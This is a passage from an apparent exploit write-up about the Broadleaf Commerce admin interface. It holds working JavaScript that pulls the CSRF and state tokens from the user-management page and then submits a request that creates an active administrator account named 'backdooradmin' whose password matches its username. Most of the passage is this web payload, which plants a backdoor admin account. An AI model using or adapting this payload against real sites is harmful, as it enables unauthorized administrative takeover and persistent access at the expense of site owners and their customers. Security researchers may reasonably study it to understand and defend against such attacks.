 But there is an issue, there are two tokens within the request, a CSRFToken and StateVersionToken. If we want to create a new admin user we also need to find these tokens.

These tokens reside within the HTML of the generated page. So sending a GET request to /admin/user-management which doesn't change the application state and therefore doesn’t require a token, reveals the tokens.

```javascript
function getTokenJS() {
    var xhr = new XMLHttpRequest();
    xhr.responseType = "document";
    xhr.open("GET", "/admin/user-management", true);
    xhr.onload = function (e) {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            page = xhr.response
            csrf = page.getElementsByName("csrfToken");
            state = page.getElementsByName("stateVersionToken");
            console.log("The token is: " + csrf[0].value);
            console.log("The state is: " + state[0].value);
            submitFormWithTokenJS(csrf[0].value, state[0].value);
        }
    };
    xhr.send(null);
}
```

This retrieves the CSRF and State tokens.

The next function takes the tokens and embeds them into the POST request to add the new admin user.

```javascript
function submitFormWithTokenJS(token, state) {
    const username = "backdooradmin";

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/admin/user-management/add", true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.responseType = "document";
    xhr.onreadystatechange = function() {
        if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            console.log(xhr.responseURL)
            var result = /[^/]*$/.exec(xhr.responseURL)[0];
            addAdminAccess(token,state,result);
        }
    }
    xhr.send("ceilingEntityClassname=org.broadleafcommerce.openadmin.server.security.domain.AdminUser&entityType=org.broadleafcommerce.openadmin.server.security.domain.AdminUserImpl&id=&sectionCrumbs=&mainEntityName=&preventSubmit=false&jsErrorMapString=&fields%5B'name'%5D.value="+username+"&fields%5B'login'%5D.value="+username+"&fields%5B'email'%5D.value="+username+"%40example.com&fields%5B'phoneNumber'%5D.value=&fields%5B'password'%5D.value="+username+"&fields%5B'passwordConfirm'%5D.value="+username+"&fields%5B'activeStatusFlag'%5D.value=true&fields%5B'auditable__createdBy'%5D.value=&fields%5B'auditable__dateCreated'%5D.value-display=&fields%5B'auditable__dateCreated'%5D.value=&fields%5B'auditable__updatedBy'%5D.value=&fields%5B'auditable__dateUpdated'%5D.value-display=&fields%5B'auditable__dateUpdated'%5D.value=&csrfToken="+token+"&stateVersionToken="+state);
}
```
